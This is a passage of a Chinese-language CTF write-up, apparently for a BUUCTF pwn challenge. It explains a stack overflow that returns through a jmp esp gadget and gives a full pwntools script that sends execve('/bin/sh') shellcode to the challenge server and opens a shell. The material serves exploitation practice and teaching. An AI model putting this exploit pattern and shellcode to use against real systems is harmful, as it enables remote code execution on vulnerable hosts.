 发送如下`payload`

``` python
payload=shellcode.ljust(0x24,b'\x00')+p32(jump_esp)+asm("sub esp,40;call esp")
```

此时的栈布局如下

```  
|            |                  low address 
| shellcode  | 0x20            
|            |
--------------
|(old ebp)00 | 0x4
| jump_esp   | 0x4              hight address
--------------
| sub esp,40 |<-esp
|  call esp  |
```

溢出返回地址后，跳转到`esp`所在的地址，即要执行`sub esp,40`，为什么要执行这个，因为`esp`是往低地址增的，所以为了拉高`esp`回到原来的`shellcode`在栈上的位置，即`esp-40`，更改完`esp`后，直接`call esp`来到`shellcode`的开始位置执行

注意使用`asm`的时候，需要执行运行及其的架构

``` python
from pwn import *
p=remote('node4.buuoj.cn',27774)
context(log_level='debug',arch='i386',os='linux')
jump_esp=0x8048554
shellcode ='''
xor eax,eax             #eax置0
xor edx,edx				#edx置0
push edx				#将0入栈，标记了”/bin/sh”的结尾
push 0x68732f2f         #传递”/sh”，为了4字节对齐，使用//sh，这在execve()中等同于/sh  68-h 73-s 2f-/ 2f-/
push 0x6e69622f         #传递“/bin”  6e-n 69-i 62-b 2f-/
mov ebx,esp             #此时esp指向了”/bin/sh”,通过esp将该字符串的值传递给ebx
xor ecx,ecx
mov al,0xB              #eax置为execve函数的中断号
int 0x80                #调用软中断
'''
shellcode=asm(shellcode)
#23
#shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
payload=shellcode.ljust(0x24,b'\x00')+p32(jump_esp)
#40
payload+=asm("sub esp,40;call esp")
p.sendline(payload)
p.interactive()

```

## ciscn_final_3

知识点
